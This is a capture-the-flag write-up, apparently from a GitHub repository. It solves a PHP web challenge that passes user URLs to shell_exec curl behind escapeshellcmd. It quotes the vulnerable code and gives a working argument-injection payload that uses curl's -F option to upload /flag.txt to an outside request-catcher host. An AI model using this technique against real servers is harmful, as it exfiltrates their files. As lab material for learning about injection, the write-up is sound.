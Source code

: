 # solution

![alt text](image.png)<br>
You will see a page like above, when you click crawl button, you will be redirected to vnexpress.net. Let check at **/?debug** (hints from title challenge)
![alt text](image-1.png)<br>
For summary, let focus on this code

```
if(isset($_POST['url'])){
  $url = $_POST['url'];
  if(strpos($url, 'http') !== 0 ){
      die('Only HTTP or HTTPS !');
  }else{
      $result = shell_exec('curl '. escapeshellcmd($url));
      $cache_file = './cache/'.md5($url);
      file_put_contents($cache_file, $result);
      $data = parse_html($cache_file);
  }
}
```

We cant use CMDI cause escapeshellcmd() block and filter chars such as **&#;`|\*?~<>^()[]{}$\ , \x0A và \xFF.**. This challenge is quite tricky and i need to get some hints to solve it. This website will crawl the web using the curl command, then save the crawled content to a file located in the “./cache” directory.

We certainly cannot bypass this challenge with the approach of using the characters ';' or '&', we have to go in a different direction.
Instead of injecting a command for the server to execute after executing the curl command, we can directly use the curl command to send the file content to a server that we build ourselves. I think maybe is a SSRF advanced by use curl. After some research, I discovered that curl provides the -F option to allow sending files. Here i use tool at dreamhack tool.

But we cant use payload like this **-F file=@/flag.txt https://aesagwj.request.dreamhack.games** cause

```
if(strpos($url, 'http') !== 0 ){
      die('Only HTTP or HTTPS !');
  }
```

It seems a bit tricky, but just fix the payload as follows: http://103.97.125.56:31217/ -F file=@/flag.txt https://aesagwj.request.dreamhack.games . => Now the server will run the command: curl http://103.97.125.56:31217/ -F file=@/flag.txt https://aesagwj.request.dreamhack.games, crawl from the website http://103.97.125.56:31217/, then send the file to the dreamhack server. In the curl command, when you see @/flag.txt, it is a way to specify that curl will read the contents from the /flag.txt file and use this content for part of the data to send, instead of just sending the file name or path.

Put this payload and wait a bit(maybe you need to run this payload 2 3 times).
![alt text](image-2.png)<br>
